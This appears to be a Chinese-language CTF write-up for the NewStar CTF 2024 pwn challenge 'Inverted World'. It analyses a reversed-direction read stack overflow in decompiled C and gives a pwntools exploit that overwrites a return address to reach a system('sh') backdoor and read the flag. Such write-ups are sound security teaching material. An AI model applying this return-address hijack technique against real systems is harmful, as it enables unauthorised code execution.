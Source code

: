 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Inverted World

## 题目分析

checksec 之后发现未开启 pie，开启了 Canary.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[255]; // [rsp+0h] [rbp-110h] BYREF
  _BYTE v5[17]; // [rsp+FFh] [rbp-11h] BYREF

  *(_QWORD *)&v5[9] = __readfsqword(0x28u);
  init(argc, argv, envp);
  table();
  write(0, "root@AkyOI-VM:~# ", 0x12uLL);
  read(0, v5, 0x512uLL);  // 这里实际是自定义的 _read 函数，实现和 read 函数相反方向的输入
  write(1, buf, 0x100uLL);
  puts(byte_402509);
  puts("??? What's wrong with the terminal?");
  return 0;
}
```

`main` 函数的 `read` 存在栈溢出，但是这个 `read` 函数是自定义的（源码中命名函数名为 `_read` 来实现的）。

`_read` 实现的是和正常 `read` 相反方向进行输入，我们这里输入的长度 `0x512` 明显大于 255，可以写到低地址的栈帧的东西，我们劫持位于低地址的 `_read` 函数的返回地址到 backdoor 中间的部分（因为劫持到开头过不了检测）。

反向输入 `sh` 即可执行 `system("sh")` 拿到 shell.

:::info 关于 Canary
因为是反向输入的，只要不多写东西就不会修改到 Canary，自然就不用故意绕过 Canary.
:::

## EXP

```python
from pwn import*

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

p=remote('???.???.???.???', ?????)

payload=b'a'*0x100
p.sendline(payload+p64(0x040137C)[::-1])
p.sendlineafter("root@AkyOI-VM:~#", "hs")
p.sendline("cat flag")
p.interactive()
```
